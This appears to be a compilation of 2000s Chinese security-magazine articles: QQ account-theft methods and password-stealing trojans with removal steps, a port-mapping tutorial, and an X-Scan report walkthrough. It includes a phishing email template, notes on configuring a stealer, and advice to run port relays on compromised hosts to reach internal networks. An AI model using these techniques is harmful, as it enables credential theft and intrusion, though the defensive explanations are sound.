时下的QQ已经不再是单纯意义上的聊天工具，QQ号码的好坏已经成为衡量新老网虫的主要标志，拥有一个靓的、短的QQ已经成为众多上网者的梦想。然而在正当途径无效的情况下，盗号已经成为某些人实现“梦想”的唯一可能。正是在这种大环境下，各种盗号工具如“雨后春笋”般在网络上蔓延。这里笔者将一一介绍网上盗号工具的特征与防范措施，以及最近流行的盗号方式。

前几天我和一个在易趣和淘宝网上卖QQ的朋友聊天，就谈到了QQ防盗的问题。

QQ大卖家：好啊！最近在忙什么？

Showlife：没什么，还是老样子，教室—食堂—宿舍三点一线了。

QQ大卖家：呵呵！有事要问你，就是QQ防盗的问题。你也知道我正在网吧上网，而且我的号大部分没有密码保护，要是丢了，腾讯那边也收不回来。所以我很担心，怎么办啊？

Showlife：这样啊！那我就系统的给你介绍一下最近流行的盗号方式及一些盗号工具，仔细看了！


## 1. 网址陷阱

Showlife：盗号者会像普通网友一样加你QQ，和你聊天，或者声明要买你的QQ（尤其像你这种在易趣和淘宝网上的QQ卖家，更要注意）。聊了一段时间后，他会发一个网址给你，说是什么语音聊天室之类的，叫你进去聊天，如果点击了那个网址，你就会中木马，QQ密码也自然被盗了。

QQ大卖家：那遇到这种情况很简单啊！立即拖到黑名单（要聊天，QQ上不能聊啊）。

Showlife：对，继续往下看第2个。

## 2. QQ邮件

Showlife：在你们互加为好友之后，有点“专业素质”的盗号者会跟你聊几句，没有的就直接发个邮件过来给你。QQ邮件同样也加了木马的，原理是通过将有木马网页地址的代码加到签名档中……

QQ大卖家：像我们这种QQ卖家不可能不加他为好友，所以只能设置QQ邮箱拒收了。但如果是好友发过来的，不是很麻烦吗？

Showlife：你反正QQ多，专门弄个好QQ就不就行了:)

## 3. 异性诱惑

Showlife：对方会用异性的身份加你，一段乱侃之后，一般会主动问你要照片，我们会很有礼貌的拒绝，做为礼节我们也会提出同样的要求，对方很“欣然”的接受，并且很快发过来了。一些按耐不住心中激动与喜悦的同志会立即打开照片地址，打开后却发现只是一张网络上广为流传的图片。当我们还在郁闷的时候，对方已经悄然离去，当然离开我们的还不只是她，还有我们的QQ……

QQ大卖家：那就是说不认识的人发来的网址或者图片什么的，不要随意点去，是吧？

Showlife：哈哈！也不是了，你也可以在浏览器中输入VIEW-SOURCE：HTTP://……来查看它的源码，里面往往都有些“好”东西。

## 4.冒牌QQ服务

有些盗号者会假冒QQ的客户服务，向你发一封自称“腾讯公司客户服务”的邮件，内容基本如下：

> FROM “腾讯QQ客户服务”
TO:
Sent : Tuesday, september 21,2004 7:08 PM
Subject: 腾讯关于XXXX获奖的通知

(XXXX QQ幸运儿：恭喜！！你已经成为了QQ在线网友XX活动的中奖用户。你将获得由XX公司提供的精美T恤一件，并有机会获得手机一部。

腾讯公司 (http://www.qq.com)

注: 奖品是以邮寄方式寄出,请你认真填写以下资料。如果填写错误,将被作为自动放弃获奖机会处理。

QQ号码:
密码:
姓名:
E-Mail:
身份证:
通讯地址:
联系电话:
邮编:

QQ大卖家：一看就是个骗子，怕怕！

Showlife：这种方式比较狠，不过可信性不大。如果你不能辨别，最好打电话确认。

以上4点是笔者总结的目前比较流行的盗号方式，相比工具类的盗号方式，这些盗号方式更直接、方便，也更危险。是现在主流的盗号手段，QQ大卖家你要特别留意哦！

QQ大卖家：我记下了，现在的人，哎……

Showlife：下面给你讲下QQ盗号工具的防范，你在网吧尤其要注意了。


按Shift键+“*”键会弹出自动清除程序。

QQ大卖家：马上11期都出来了，也不知道9期还买不买得到哦？

Showlife：白痴，你不知道邮购呀！


## 2.QQ杀手

这个想必很多朋友都听说过吧！它是款本地QQ盗号工具，可以准确记录QQ登录时的号码和密码，并保存在指定文件和发送到指定邮箱。

【防范措施】：在任务管理器的“进程”里找到MSTRAY进程，终止它（也可用QQ杀手专杀工具）。然后选择“开始→运行”，在弹出窗口中输入“regedit”并回车，打开注册表编辑器。展开注册表到以下位置：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run，里面有个叫SYSTEM KAV的东东，竟然伪装成“金山的防火墙”，删除它！

## 3.QQ盗号先锋2003特别版

功能强大、易用的QQ号码盗取软件，能安全躲过任何防火墙和杀毒软件，完整记录QQ号码和密码，并发送到指定的邮箱。

【防范措施】：选择“开始→运行”，在弹出窗口中输入“regedit”并回车，打开注册表编辑器。展开注册表到以下位置：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run，以设置Run的权限，限制木马的自动运行。然后使用QQ防盗专家登陆。

QQ大卖家：QQ密码防盗专家操作简单吗？

Showlife：QQ密码防盗专家安装的界面有点复杂，但好好研究一下会发现其实操作很傻瓜。主窗体里我们可以设置些变动标题、开机启动等，里面还可根据自己的情况设置隐藏、启动的快捷方式。为什么说用QQ密码防盗专家是无敌登陆呢？我们来看一下原理：用户在QQ密码防盗专家中输入密码登陆，这个登陆是在内存中进行的，而QQ密码框中的其实是假密码，也就是说别人偷到的是假密码，当然安全性就高了。不过未注册版本只能保护10个QQ号，另外它还有个取回密码的功能（也需要注册）。

QQ大卖家：Run下的设置权限具体怎么做啊？

Showlife：这个具体的设置方法是找到注册表的这个位置：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\，然后找到“RUN”，选中它后点击鼠标右键，在弹出窗口中选择“权限”，然后点击“高级”按钮，在弹出窗口中把最底下第一个复选框“从父项继承那些可以应用到子象……”前面的勾去掉。之后又会弹出一个提示对话框，我们选择“删除”，确定后点击“添加”，添加你当前的用户名，再“确定”就OK了，具体设置视频本期光盘有收录。

## 4.星河QQ大窃XP2004

可以关闭防火墙，可以窃取QQ所有版本的密码（不包括最新的QQ2004 sp1），适用于除Linux外的所有版本（图2）！使用时配置好信箱，然后点击“开始运行程序”，它就会在系统中隐藏运行。


【防范措施】：也按上面的方法去设置Run的权限，然后使用QQ防盗专家，最后再更新病毒库。

Showlife：大部分工具类的盗号方式都差不多，有的我就不一一讲了，你仔细看就行了。

QQ大卖家：OK！明白。

## 5.QQ密码轻松盗

它有两个文件：HKTEST.DLL和SCRQQ.EXE。运行SCRQQ.EXE文件后，提示要注册，我用的是破解版，随便输入几个数字后便显示注册成功。我们进行一些简单邮箱设置和启动设置（图3），这个都很简单。唯一要注意的是，要确保你有里面所列出邮箱中的一个，没有的话去注册吧！好了以后按“确定”，弹出对话框：测试成功，请登陆你的邮箱……


图3

【防范措施】：打开Windows任务管理器，选择“进程”选项卡，在里面选中“SCRQQ.EXE”进程，然后点击“结束进程”。最后查找HKTEST.DLL文件，将其删除。

## 6.QQ在线破解器

其原理是通过QQ游戏登录窗口进行暴力破解。是个字典穷举的最原始破解方式，我比较讨厌这种盗号方式（图4）。


图4

【防范措施】：人家都用穷举了，我们还有什么办法，把密码改复杂点吧！

## 7.极品QQ盗号2004

杀毒软件不能查到其有毒，它改变了发信方式，采用了智能过滤，收到的信中没有记录过程，自动生成盗号器，里面还提供图片木马地址，但这个工具没有提供绑定功能，如图5。


图5

【防范措施】：和星河QQ大窃XP2004一样，设置一下Run的权限，限制木马的运行。在任务管理器中杀掉进程。

## 8.GOP（get qq password）

带有一个叫gOP.exe的服务端，一不小心点了它之后，会弹出一个欺骗窗口，比如说内存不足之类的，这时木马已经植入了你的电脑。

【防范措施】：搜索电脑里有没有record.dat文件，如果有那你就100%中了。删除那个文件，然后在任务管理器中杀掉进程，最好使用它的专杀工具KILLGOP。

## 9.偷QQ的老鼠

原理是将“腾讯QQ.exe”覆盖机器上的“QQ.exe”，只要一登陆，就会截取到密码，并保存在c:\pchoer.txt里。

【防范措施】：搜索有没有pchoer.txt文件，如果有就清除之。像这种盗号方式，一般来说图标都做得不太像，另外要注意的是，在要求重新输入密码时，你就要仔细斟酌了，搞不好你的密码就被窃取了。

## 10.QQ号码抢劫者

这个软件是个只具备发送E-Mail功能的假QQ（图6），你使用它登陆后会出现错误提示，然后再调用真正的QQ程序，老版本的图标做得很垃圾，比较亮，很容易能看出来，新的版本解决了这个问题，但还是会要求输入E-Mail和出现服务器超时的错误框，这个要小心哦！


图6

【防范措施】：看到要求你输入E-Mail时就要小心了，最好到QQ安装的文件夹里用原QQ程序登陆。

## 11.阿Q盗密者

这个软件在Windows ME和Win98下能够隐藏进程，隐蔽性很大。阿Q盗密者V1.3+新增了发送邮件的功能，支持国内几乎所有的免费邮箱。还会自动更新同一天内相同QQ号码的密码，不会重复记录。还整合了设置器，适用的版本较广。

【防范措施】：打开注册表编辑器，展开注册表到：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run，将system这个键删除，在XP/2000下，在任务管理器中杀掉QQCV11.EXE进程。

## 12.QQ黑暗精灵3

这个软件的成功率很高（图7），一旦你的号码被记录后，会生成一个netlog.Qqh的文件。用记事本将其打开，你的QQ号及密码就记录在里面。它支持QQ1230－QQ2003的所有版本，获取的信息更加详细。


图7

【防范措施】：在你的电脑中查找NETLOG.Qqh文件，有就表示中了，它会在注册表的HKEY_LOCAL_MACHINE\SOFTWARE里生成一个叫Qqhacker的主键，里面记录着密码文件的位置，重启后进程会改名为POWER.exe，自身复制到系统目录，图标是QQ图标。在任务管理器中删除该进程即可。

## 13.QQ密码发送者

这个木马可以自己配置生成，我们运行它的配置文件，设置好邮箱，就能自动生成木马。把木马放到目标主机上运行，就能开始工作了。

【防范措施】：这个木马在配置完成后所生成的木马图标和记事本是一样的，所以很有迷惑性。但由于这个木马的版本较老，基本上现在的主流杀毒软件都可以轻松杀掉。

## 14.QQ掠夺者

这是款功能非常强大的工具，出来的时候任何QQ保护程序都不会发现和拦截（图8）。是时下盗密软件中功能比较强大的了，并且它还具有智能判断能力，对已被获取帐号和密码的QQ，不会重复获取，具有防删除功能。软件安装后主程序秘密隐藏起来，很难找到，找到了也不能非法删除，不过它有自动删除程序。


图8

【防范措施】：目前只要你更新过杀毒软件病毒库，基本上所有的杀毒软件都能查到（因为太出名了），当然也可调用它的自删除程序。

## 15.QQ窃手

这是种通过邮件传播的蠕虫病毒，与尼姆达类似，不用打开，预览时就会中毒，它会将你的密码以附件的形式发送出去，还会泄露一些你的其他资料。

病毒运行后会释放一个叫KERNELSYS32.EXE的程序，该程序也会释放一个IMKERNEL32.SYS文件，记录的密码保存在系统目录下的 drocerr.sys 文件中，同时备份到 drocerrbk.sys文件中。并且该病毒还会将自身与你最近打开的图片、音乐什么的捆绑，邮寄给你的好友。恐怖！

【防范措施】用杀毒软件将 worm.gqp.3这个病毒彻底杀掉，金山的十大流行病毒专杀工具就可查杀一些QQ病毒。

QQ大卖家：哇塞！看来以后要小心了。

## 16.QQthief

网格工作室出品的盗号工具，将原QQ主文件QQ.EXE改名为O.EXE，用监听程序代替QQ上文件。发送的邮箱地址放在Windows下系统目录中的system里，文件名叫QQCFG，还有个firstrun.dat的文件也在其中。QQ目录下会出现2个企鹅头像：一个为QQ.EXE，另一个为O.EXE。

【防范措施】删除QQ目录中的伪程序QQ.EXE，然后把O.exe更名为原始QQ执行名QQ.exe，删除SYSTEM中的两个文件，即QCFG和firstrun.dat。

## 17.QQ密码间谍

如图9，它会将监听程序伪装成Internat.exe，将原System目录内的同名文件拷入Windows目录，会把System中的internat.exe更名为Smaxinte.exe，从而实现隐身，在后台登陆。在Win9X系统下进行了一些优化，一些自我复制功能，新增了一些新的密码接收邮箱。


【防范措施】：在任务管理器中结束Internat进程，然后删除System中的Internat.exe文件，再将Smaxinte.exe改名为Internat.exe，最后用注册表工具清理一下（可以用瑞星的注册表工具，其实现在超级兔子啊什么的都可以用）。

## 18.QQSPY

修改注册表，开机将监听程序QQSPY和QQPASS自动运行，Windows目录的System下出现QQSPY程序和QQHOOK.DLL文件。

【防范措施】删除Windows目录里System下的那两个程序，即QQSPY程序和QQHOOK.DLL文件。然后用上面提到的注册表工具还原。

## 19.OICQ密码窃取木马

软件主要功能：定义目录、运行后删除源文件、钩子文件名、定义注册表键名、当记录数超过XX时开始清理等。

【防范措施】：杀毒软件和一些查杀木马工具可轻易将其杀掉，最方便了。

## 20.键盘记录者


这是BERRER工作室开发的一款系统监视软件（图10）。作为监视软件，它也可以用于盗号，但这个程序有个很大的不足：它不具备发邮件的功能，只能保存记录，不管它能不能发邮件，被人记录了密码总是不爽。

【防范措施】在Windows进程管理中终止KLOG.EXE程序，执行“开始→运行”，在弹出窗口中输入“msconfig”，打开系统配置实用程序，在“启动”项找到KLOG.EXE，将前面的勾去掉！防止随机开机启动。或展开注册表到：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run，将其中的KLOG删除。QQ大卖家：连这个系统监视软件也可以哦！Showlife：还不止呢，类似的还有“窗口键盘记录器”、“密码使者”等。

> 小结：目前来说，用QQ工具盗密码的较少了，因为现在大部分网吧都安装了还原卡，杀毒软件也较多，但也不排除有些安全措施不完善的网吧，总之要小心！

QQ大卖家：谢谢磊哥！改天送你个好QQ，呵呵！

如今，网络上各种各样的盗号方式层出不穷，下面总结了几点防盗方法以供大家借鉴：

1. 使用QQ密码防盗专家，这是款很有用的工具，推荐大家使用！
2. 不断更新QQ版本，用最新的。
3. 在网吧上网，不管是否硬盘还原，下线后第一时间删除记录。
4. 禁止更换用户。
5. 不要乱点网址。
6. 不要乱接受陌生人的邮件。
7. 申请密码保护（卖号的除外了）。
8. 登陆时在号码前加点0，以加长QQ位数（为防止探测工具）。
9. 禁用邮件检查功能。

（本文涉及的以下软件光盘有收录：Run的下设置权限视频、QQ杀手专杀工具、KILLGOP、金山的十大流行病毒专杀工具、瑞星的注册表工具）

+ - 什么是肉鸡?
在黑客技术中，肉鸡通常指的是那些已经被入侵者成功控制的网络上的主机，对于入侵者来说，就像是使用自己的电脑一样。

- 什么是木马（Trojan）?
全称为特洛伊木马（Trojan Horse），是根据希腊神话传说中的一次战争而得名。麦尼劳斯派兵讨伐特洛伊王国，他们假装被击败然后留下一个很大的木马，而木马里却隐藏着最精锐的勇士！最后等晚上时间一到，隐藏在木马里的勇士就冲出来把敌人打败了。后来就有了特洛伊木马一说，而在黑客中的特洛伊木马通常指的是一些特别的程序，这类程序表面上伪装的现象是一些很正常的程序，但实际上却隐藏着许多特殊的功能，通常都是一些方便黑客的远程控制功能，以使受害者在不知不觉间，被黑客所控制。


## 小鸡快跑

### 端口映射？你知多少？

dahubaobao

### 一、本文结构

在介绍端口映射的原理、方法之前，先来看看本文结构，目的是让大家对本文有个总体印象。


### 二、端口映射原理

端口映射原理可分为两大部分：动态端口映射和静态端口映射。具体是什么呢？别着急，且听我一一道来。

#### 1. 动态端口映射

假设内部网络中有一台主机需要访问163（网易），这时，它就会发送一个数据包给163来请求连接，里面包含源地址和源端口（这里指本地），以及目的地址和目的端口（这里指163）。但由于Internet上并不识别专用地址，所以在数据包发送到服务器网关时，网关把源地址、源端口替换为自己的地址和端口（任意），并再把数据包发送出去，然后记录下这种关系，以便以后继续转发数据包。163收到请求之后，就会发送一个应答包给服务器网关，由于刚才网关已经记录了这种关系，所以网关会把数据包中的目的地址、目的端口修改为内部网络的地址和端口，然后转发给内部网络中的那台主机，这样就实现了数据转发。这里的网关就可以称为NAT（网络地址转换）。

如果内部网络和公共网络的连接关闭时，服务器网关会释放这条转发连接，以便以后继续使用（这点和动态IP有点像）。

实现这种NAT技术很简单，我们大家平常使用的syagte、wingate都是此类软件的佼佼者。至于这些软件的使用方法，网上有相关教程，我就不再废话了。

#### 2. 静态端口映射

这里指在服务器网关打开一个固定端口，并且这个端口接受到的所有数据都将转发到内部网络中的某一台主机。不管有没有连接，这种关系都一直存在。

这就是我主要说的内容了，比如，把内网中的某一台主机（我们假设主机A）的Web（port 80）服务打开，然后在服务器的网关上设置：凡来自Internet上80端口的请求，全部转发到内部网络中的主机A。这样就实现了公共网络访问内部网络。

> **注意** 这里的服务器网关可以是路由器、交换机或一台PC。

如果大家对上面的原理还不是很清楚，下面就来看着具体的例子，相信你很快就会明白的。

### 三、如何使用Windows系统实现端口映射

这里同样也提供了两种方法实现：利用IIS实现端口映射（只能实现Web和Ftp的端口映射）、利用路由和远程访问实现端口映射（可以实现任意端口映射，推荐使用）。

#### 1. 利用IIS实现端口映射

我们首先来看看怎样用IIS实现Web、Ftp服务的端口映射。首先打开“开始→管理工具→Internet信息服务”来启动IIS。然后查看“默认Web站点→属性”（这里是dahubaobao），在弹出窗口中选择“主目录”，选中“另一计算机的共享位置”（图1）。


图 1

还有一种方法，选中“重定向到URL”（图2），这里可以填写内部网络的Web服务器地址。这样，凡是来自Internet上的请求，都会映射到这个URL，比如：192.168.0.10。

> **注意** 这个192.168.0.10中也必须安装IIS，换句话说，就是必须打开Web服务。


图 2

下面来介绍Ftp的端口映射，跟Web服务的差不多。打开“默认Ftp站点”（我这里是大hubaoobao），选择“属性→主目录”，选中“另一计算机的共享位置”，剩下的就和Web服务一样了，在此就不多说了。

> **注意** 这里是UNC路径，比如这里填写：\\192.168.0.10\new，凡是来自Internet上的请求，都会映射到这个共享目录，这样就实现了映射。server是192.168.0.10上的一个共享文件夹。

#### 2. 利用路由和远程访问实现

下面介绍使用 Windows 2000 Server 自带的“路由和远程访问”来设置端口映射。这里可以分两种方法来实现：
- 使用“路由和远程访问”中的“设置 Internet 连接共享（ICS）”。
- 使用“路由和远程访问”中的“设置具有网络地址转换（NAT）路由协议的路由器”。

由于篇幅的限制，不能详细叙述这两种方法的实现，所以我简单说一下第一种方法的大概意思，再详细介绍第二种方法的实现。

第一种方法的大概意思，我用最通俗的说法来解释：服务器安装两块网卡，一块连接 Internet，一块连接内部网络。我们通过使用路由和远程访问，将连接 Internet 的那块网卡配置为支持 NAT 模式，使其可以实现端口映射，这样就可以使 Internet 上的用户访问我们内部网络的某台服务器。这里可以是 Web Server、Ftp Server、Mail Server、SQL Server 等。

第二种方法（即使用“路由和远程访问”中的“设置具有网络地址转换（NAT）路由协议的路由器”）就不同于上边的了。

第一种方法只提供共享上网，而第二种方法可提供路由协议，可以说是 Windows 2000 中的“软”路由。下面来看看具体的配置。

①点击“开始→管理工具→路由和远程访问”来启动路由和远程访问。这时，在服务器状态下会出现“Computer Name（本地）”，右键单击，选择“配置并启用路由和远程访问”。点击“下一步”。

②然后会来到“路由和远程访问服务器安装向导”中的“公共设置”标签。这里，我们选择“Internet 连接服务器”。选择“下一步”会来到“路由和远程访问服务器安装向导”中的“Internet 连接服务器设置”，我们选择“设置有网络地址转换（NAT）路由协议的路由器”（图 3），点击“下一步”。


③这里就到了“Internet 连接”对话框，选中“使用选择的 Internet 连接”（如果需要新建连接，就要选“创建一个新的请求拨号 Internet 连接”），选中“本地连接”（图 4），然后点击“下一步”。

从这里可以看出：

- 本地连接的 IP：220.68.10.231——连接 Internet 的网卡
- 本地连接 2 的 IP：192.168.0.1——连接内部网络的网卡


④接着来到“名称和地址转换服务”对话框，选中“启用基本的名称和地址服务”（图 5）。选择“下一步”。

由于内部网络并没有 DNS 服务器，所以还是使用 Internet 上的 DNS 吧！如果内部网络中有 DNS，那就可以选择“我将稍后设置名称和地址服务”，这样就可使用自己的 DNS 服务器了。


⑤来到“地址指派范围”对话框，默认即可，然后“下一步”。

⑥到此，网络地址转换（NAT）路由协议的路由器就设置完成了，点击“完成”后退出。


⑦然后来到“IP 路由选择→网络地址转换（NAT）→本地连接”，设置具体的端口映射规则。

⑧查看右边窗口中的“本地连接→属性”，来到“网络地址转换→本地连接→属性”对话框，选中“公用接口连接到 Internet”和“转换 TCP/UDP 头（推荐）”，点击“应用”（图 6）。再打开“特殊端口”标签，点击“添加”来添加端口映射的规则（图 7）。


然后点击“确定”，回到“特殊端口”界面，接着就可看到端口映射的规则已经设置好了。这里要注意一下“协议”，我们设置的 Web 服务是使用 TCP 协议，所以使用 TCP；如果我们要设置的映射关系是 UDP 协议的，那就要在添加规则之前选中 UDP 协议（图 8），最后点击“确定”就可以生效了！

这种方法不仅支持了 NAT，还提供了路由协议，对于要求比较高的朋友，可以使用。

### 四、使用各种工具实现端口映射

#### 1. PortTunnel

这个工具是端口映射的专用工具，是款绿色软件，不必安装，直接运行（图 9）。
此工具提供多种服务的映射，比如：HTTP、FTP、SMTP 服务，并有很多相关设置，功能强大，还提供日志、统计和安全性等相关设置。下面让我们来看看具体的使用方法。


图 9

- Port Mappings——端口映射
- Add——表示添加端口映射规则
- Delete——删除某条规则
- Edit——编辑某条规则
- Copy——复制某条规则
- Server——服务器
- Start——开始
- Stop——停止
- About——关于
- Display options——操作选项

下面我们来设置 80 端口的映射。
首先点击“add”，弹出一个对话框，默认显示“Main”标签。我们就要在这里设置端口映射（图 10）。

- Name: Web——规则的名称，可随便填写
- Enabled: 选中——这里表示激活
- Port in: 80——输入端口，也就是供 Internet 上访问的端口
- Bind address: any——表示监听该主机的全部 IP
- Port out: 80——输出端口，也就是映射过来的端口
- Address out: 192.168.0.10——输入地址，内部网络中的服务器

设置完成后如图 10 所示。就这样，一条 80 端口的映射规则就添加完成了。回到主界面，会看见我们添加的规则，点击“start”就可以启用了。
其他一些标签就是 PortTunnel 提供的额外设置，比如：HTTP Proxy（提供 HTTP 代理）。


图 10

由于这些已不在本文范畴之内，故不再多言，大家可以自己研究一下。

#### 2. Port2Port

这是一个命令行下的端口映射工具，使用也很简单，先来看一下帮助吧！

```
C:\>P2p -h
Port2Port ver 1.01
Write by fanccp. 2001.7.10
Email: fanccp@yeah.net
Usage: P2P [<options>] <--l lPort> <--T tIP> <--t tPort>
options:
  -h Help
  -d Display message
  -s Save message to logs (\p2p.log)
  -l lPort Local Port
  -T tIP Target IP
  -t tPort Target Port
Sample:
P2P -d -s -l 3389 -T 192.168.0.4 -t 3389
```

下面解释一下其中的含义：

- -h Help——帮助信息，也就是上面显示的
- -d Display message——显示信息
- -s Save message to logs (\p2p.log)——日志信息，会在同目录下生成 P2P.log 日志文件
- -l lPort Local Port——类似上面的输入端口
- -T tIP Target IP——类似上面的输出 IP
- -t tPort Target Port——类似上面的输出端口

以上边的映射为例，使用如下命令（图 11）：

```
P2P -d -s -l 80 -T 192.168.0.10 -t 80
```

就这么简单！我们可以把这个应用在肉鸡的服务器网关上，来实现控制内部网络。

#### 3. FPipe

这也是一个命令行下的端口映射工具，可以映射 TCP/UDP 协议，支持连接数的最大上限，先来看看帮助信息：

```
C:\>FPipe
FPipe v2.1 - TCP/UDP port redirector.
Copyright 2000 (c) by Foundstone, Inc.
http://www.foundstone.com

FPipe [-hvu?] [-lrs <port>] [-i IP] IP

-h - shows this help text
-c - maximum allowed simultaneous TCP connections. Default is 32.
-i - listening interface IP address
-l - listening port number
-r - remote port number
-s - outbound source port number
-u - UDP mode
-v - verbose mode.

Example:
fpipe -l 53 -s 53 -r 80 192.168.1.101
```

This would set the program to listen for connections on port 53 and when a local connection is detected a further connection will be made to port 80 of the remote machine at 192.168.1.101 with the source port for that outbound connection being set to 53 also.
Data sent to and from the connected machines will be passed through.

- -c - maximum allowed simultaneous TCP connections. Default is 32——TCP（传输控制协议）协议的连接数最大值，例如：32
- -u - UDP mode——UDP 协议

其他的我不解释了，重点解释一下 fpipe -l 53 -s 53 -r 80 192.168.1.101这个例子，如果大家明白了这个例子，我想其他的信息就“迎刃而解”了。
我们首先设本地主机为 A，Internet 上的某一台主机为 B。
这个例子的含义为：在本地监听 53 号端口，然后主机 B 连接主机 A 的 53 号端口。主机 A 以 53 号端口为源端口，向内部网络中的 192.168.1.101 发起 80 端口的连接，并进行数据转发。通俗一点讲，我们在主机 A 监听 53 号端口，把所有来自 Internet 上请求 53 号端口的连接转发到内部网络中 192.168.1.101 的 80 端口。明白了吗？

以我们上边的映射关系为例，使用命令（图12）：
Fpipe -l 80 -s 80 -r 80 192.168.0.10
这样就实现了数据转发，大家可以结合上边的帮助理解这个映射规则！

## 五、后记

NAT技术，网络上比较先进的技术。不论是用在网络设置还是“肉鸡”中，都有相当的价值。用在网络设置中，可以减少IP地址缺乏的现象，并可以节省一笔费用，使专用地址可以“冒充”公网地址；用在肉鸡中，可以实现控制内部网络，可见用处甚广。本文的目的也在于此，希望通过上边的各种实例，使大家对NAT技术快速上手，并掌握此技术。
（本篇文章中所提到的软件PortTunnel、Port2Port、FPipe光盘中均有收录）

## 给电脑作安全检测——详解扫描报告

齐峰

扫描器作为黑客入侵的常用工具，在检测系统漏洞方面有着多方面的优点——快速、直观、准确。如果我们用来检测自己或朋友电脑的安全性，将更有助于了解黑客入侵前的信息收集工作，这样才能更好的了解自己的操作系统存在哪些安全隐患，以及如何进行安全设置。
用扫描器对自己电脑进行扫描之后，你会看扫描报告吗？能从扫描报告中分析出来你的电脑有哪些不安全因素吗？下面我们就来看看一份比较典型的扫描报告，看看可以得到哪些信息？随着宽带的普及，自己架设FTP服务器的朋友越来越多，因此我们特别选取了一台安装了IIS的电脑来进行扫描。
这里我们以国内著名的扫描器Xscan 3.02为例来说明，扫描完成后如图1。点击“检测报告”就可以打开扫描报告了（由于一份扫描报告中内容很多，这里我只提取了主要的有利用价值的信息，但仍保留了扫描报告原有的结构）。


图 1

3.02版本的扫描报告与2.3有很大不同，它由检测结果、主机列表、主机分析、安全漏洞及解决方案四部分组成，其中的“主机分析”和“安全漏洞及解决方案”是针对主机列表中的每台机器分别报告的。

### 一、检测结果

在图2的检测结果这部分，我们可以看到内容很简单，它说明了我们所扫描的机器中在线的机器数量共有40台，这些主机中共存在2个安全漏洞，我们还可看到扫描报告对得到的信息定义为“警告”和“提示”。


图 2

对于一些cgi漏洞，Xscan将它们定义为“警告”，当然，还包括一些其他可能被黑客利用的信息，例如开放了80端口（80端口是黑客入侵活动中最常用到的端口）；而对于“提示”，则表示电脑在网络安全方面可能不会有什么影响的信息，例如开放了一个不会产生安全隐患的端口。

### 二、主机列表

图3列出了我们扫描过的机器中的所有活动主机的IP地址，如果我们希望查看关于其中任一台主机的详细信息，只需点击相关的IP地址即可。在这里，我们还注意到每个IP地址下面的主机摘要还列出了主机开放的端口、是什么类型的操作系统等项目，这样可方便我们大致先了解每台主机的基本安全信息。图3最右侧的“检测结果”一列，我们可以看到大部分都是“发现安全提示”，而有一台则是“发现安全漏洞”，这说明此台机器存在比较严重的安全隐患。

| 主机 | 检测结果 |
| --- | --- |
| 219.245.185.67 | 发现安全提示 |
| 主机摘要 - OS: Windows 2000 Version 5.0; PORT/TCP: 7, 9, 13, 19, 21, 25, 80, 110, 443 | 发现安全提示 |
| 219.245.185.79 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 21, 25, 110 | 发现安全提示 |
| 219.245.185.87 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 25, 110 | 发现安全提示 |
| 219.245.185.97 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 25, 110 | 发现安全提示 |
| 219.245.185.98 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 25, 110 | 发现安全提示 |
| 219.245.185.70 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 25, 110 | 发现安全提示 |
| 219.245.185.81 | 发现安全漏洞 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 21, 25, 80 | 发现安全提示 |
| 219.245.185.32 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 25, 110 | 发现安全提示 |
| 219.245.185.45 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 25, 110 | 发现安全提示 |
| 219.245.185.66 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 25, 110 | 发现安全提示 |
| 219.245.185.76 | 发现安全提示 |
| 主机摘要 - OS: Unknown OS; PORT/TCP: 25, 110 | 发现安全提示 |

图 3

### 三、主机分析

由于在主机列表中这台机器的检测结果为“发现安全漏洞”，所以我们就以这台电脑为例，看看它到底存在什么问题。从图4的主机分析来看，表示这台电脑开放了至少8个端口，21端口表示他可能开放了FTP服务，80端口表示可能开放了WEB服务，即这台电脑同时既是FTP服务器，也是WEB服务器。如果在浏览器中输入他的IP地址浏览他的网页，就通过我们电脑上的一个随机的10xx端口和他的80端口相连。开放了8080端口还表示他可能运行了代理服务器软件。如果报告中出现了“Windows 2000 remote”

admin（3389）”字样，就需要注意了，win2k 的 3389 是一个黑客常用来入侵的端口。

| 主机地址 | 端口/服务 | 主机分析:219.245.185.87 |
| --- | --- | --- |
| 219.245.185.87 | 80(http) | 发现安全漏洞 |
| 219.245.185.87 | 21(ftp) | 发现安全漏洞 |
| 219.245.185.87 | 25(smtp) | 发现安全漏洞 |
| 219.245.185.87 | 110(pop3) | 发现安全漏洞 |
| 219.245.185.87 | 53(domain) | 发现安全漏洞 |
| 219.245.185.87 | 3389(3389) | 发现安全漏洞 |
| 219.245.185.87 | 1433(1433) | 发现安全漏洞 |
| 219.245.185.87 | 4899(4899) | 发现安全漏洞 |
| 219.245.185.87 | 5631(pcAnywhere) | 发现安全漏洞 |
| 219.245.185.87 | 5800(vnc) | 发现安全漏洞 |
| 219.245.185.87 | 5900(vnc) | 发现安全漏洞 |
| 219.245.185.87 | 8000(8000) | 发现安全漏洞 |
| 219.245.185.87 | 8080(http) | 发现安全漏洞 |

图4

> 小提示：1：扫描器报告显示开放了21端口，并不一定表示这一定是台FTP服务器。但扫描器之所以会提示成FTP，是因为扫描器认为每个服务和端口是固定搭配的，要知道FTP服务也是可以更改为8080端口的哦。
2：为什么我要说至少开放了8个端口呢？这是因为在默认设置下，X-scan并没有扫描一台电脑的所有端口（65535），只是扫描了一部分软件设置好的。

防范措施：尽可能的关闭不需要开放的服务，从而关闭相应的端口。

## 四、安全漏洞及解决方案

